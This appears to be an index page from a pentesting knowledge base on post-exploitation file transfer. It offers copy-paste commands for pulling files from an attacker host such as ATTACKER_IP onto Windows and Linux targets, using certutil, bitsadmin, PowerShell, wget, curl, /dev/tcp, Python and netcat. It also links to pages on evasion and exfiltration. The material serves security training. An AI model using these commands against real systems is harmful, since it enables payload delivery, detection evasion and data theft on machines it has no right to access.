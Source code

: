 ```yaml
---
tags: [file-transfer, post-exploitation, pentesting, quick-reference]
aliases: [File Transfer Hub, Transfer Methods, File Exfiltration]
created: 2025-01-28
---
```


# File Transfer Master Index

> **Quick Reference Guide for File Transfer Methods in Post-Exploitation**

## Quick Decision Tree

```mermaid
graph TD
    A[Need File Transfer?] --> B{Target OS?}
    B -->|Windows| C[Windows Methods]
    B -->|Linux| D[Linux Methods]
    C --> E{Direction?}
    D --> F{Direction?}
    E -->|Download to Target| G[[[Windows File Transfer Methods/Download Files to the Target Machine/PowerShell Web Downloads|PowerShell]]]
    E -->|Upload from Target| H[[[Windows File Transfer Methods/Upload Files to Attacker machine/Powershell Web Uploads|PowerShell Upload]]]
    F -->|Download to Target| I[[[Linux File Transfer Methods/Download Files to Target Machine/Web Downloads (Curl + Wget)|Wget/Curl]]]
    F -->|Upload from Target| J[[[Linux File Transfer Methods/Upload Files to Attacker Machine/Quick Web File Transfer Method|Web Upload]]]
```

## Most Common Methods (Quick Copy-Paste)

### Windows Quick Downloads
```powershell
# PowerShell Download
iwr -Uri http://10.10.14.1/file.exe -OutFile file.exe

# Certutil
certutil -urlcache -f http://10.10.14.1/file.exe file.exe

# Bitsadmin
bitsadmin /transfer job http://10.10.14.1/file.exe C:\file.exe
```

### Linux Quick Downloads
```bash
# Wget
wget http://10.10.14.1/file.sh

# Curl
curl http://10.10.14.1/file.sh -o file.sh

# Bash TCP
exec 3<>/dev/tcp/10.10.14.1/80 && echo -e "GET /file.sh HTTP/1.1\r\nHost: 10.10.14.1\r\n\r\n" >&3 && cat <&3
```

---

## Complete Method Categories

###  [[Windows File Transfer Methods|Windows Transfer Methods]]

#### Downloads to Target
- [[PowerShell Web Downloads]] - IWR, WebClient, BITS
- [[PowerShell Base64 Encode & Decode]] - Obfuscated transfers
- [[SMB Server Downloads]] - Using Impacket SMB
- [[FTP Downloads]] - Built-in FTP client

#### Uploads from Target
- [[Powershell Web Uploads]] - POST methods
- [[PowerShell Base64 Web Upload]] - Encoded uploads
- [[FTP Uploads]] - FTP PUT commands
- [[SMB Uploads with WebDAV — Bypassing SMB Blocks|WebDAV Uploads]]
- [[Encode Files using PowerShell]] - Base64 encoding

###  [[Linux File Transfer Methods|Linux Transfer Methods]]

#### Downloads to Target
- [[Web Downloads (Curl + Wget)]] - Standard web tools
- [[Download with Bash]] - Using /dev/tcp
- [[Base64 Encoding and Decoding for File Transfers|Base64 Methods]]
- [[SSH Downloads with SCP]] - Secure transfers
- [[Fileless Attacks in Linux — Direct Execution|Fileless Execution]]

#### Uploads from Target
- [[Quick Web File Transfer Method]] - Python/PHP servers
- [[SCP Upload — Secure File Transfers Over SSH|SCP Uploads]]
- [[Web Upload with HTTPS]] - Secure web uploads

---

##  Special Techniques

### 🥷 Stealth & Evasion
- [[LOTL File Transfers]] - Living off the Land techniques
- [[Evade Detection]] - AV/EDR bypass methods
- [[Detection - How Malicious File Transfers Are Caught|Detection Methods]] - Know your enemy
- [[Protected File Transfers]] - Encryption & obfuscation

### Programming Languages
- [[File Transfers with Code]] - Using various languages
  - [[Downloading Files]] - Code-based downloads
  - [[Uploading Files]] - Code-based uploads

### Protocol-Specific
- [[Netcat + Ncat File Transfers]] - NC transfers
- [[RDP File Transfer]] - Using RDP clipboard/drives
- [[Sending Files over HTTP-S]] - Web server methods
- [[Powershell File Transfer]] - PS-specific techniques

---

## Scenario-Based Quick Reference

### Scenario 1: Windows Target, No PowerShell
```cmd
# Use certutil
certutil -urlcache -f http://ATTACKER_IP/file.exe file.exe

# Or bitsadmin
bitsadmin /transfer job /download /priority foreground http://ATTACKER_IP/file.exe C:\file.exe
```

### Scenario 2: Linux Target, No wget/curl
```bash
# Bash TCP
exec 3<>/dev/tcp/ATTACKER_IP/80
echo -e "GET /file HTTP/1.1\r\nHost: ATTACKER_IP\r\n\r\n" >&3
cat <&3 > file

# Or use Python
python -c "import urllib;urllib.urlretrieve('http://ATTACKER_IP/file', 'file')"
```

### Scenario 3: Need Encrypted Transfer
- Windows: Use [[Protected File Transfers|HTTPS/SSL methods]]
- Linux: Use [[SSH Downloads with SCP|SCP]] or OpenSSL methods
- Cross-platform: Base64 encoding with [[Base64 Encoding and Decoding for File Transfers|Base64 methods]]

### Scenario 4: Large File Transfer
- Use [[SMB Server Downloads|SMB]] for Windows
- Use [[Netcat + Ncat File Transfers|Netcat]] for raw speed
- Consider compression before transfer

### Scenario 5: Bypassing Detection
- Review [[Evade Detection|evasion techniques]]
- Use [[LOTL File Transfers|LOTL binaries]]
- Implement [[Protected File Transfers|encryption/obfuscation]]

---

## 🔍 Quick Command Lookup

| Method | OS | Direction | Command |
|--------|-----|-----------|---------|
| PowerShell | Win | Download | `iwr -Uri http://IP/file -OutFile file` |
| Certutil | Win | Download | `certutil -urlcache -f http://IP/file file` |
| Wget | Linux | Download | `wget http://IP/file` |
| Curl | Linux | Download | `curl http://IP/file -o file` |
| NC | Both | Both | `nc -nlvp 4444 < file` / `nc IP 4444 > file` |
| Python | Both | Server | `python3 -m http.server 8000` |
| SMB | Win | Download | `copy \\IP\share\file .` |
| SCP | Linux | Both | `scp file user@IP:/path/` |
| Base64 | Both | Both | `base64 file > file.b64` |

---

## 📖 Related Topics
- [[../Post-Exploitation|Post-Exploitation Index]]
- [[../../Privilege Escalation|Privilege Escalation]]
- [[../../Persistence|Persistence Techniques]]
- [[../../Data Exfiltration|Data Exfiltration]]

## 🏷️ Tags
#file-transfer #post-exploitation #windows #linux #stealth #evasion #quick-reference #pentesting #red-team

---

> **Pro Tip**: Always test your file transfer method in a lab environment first. Different EDR/AV solutions detect different techniques!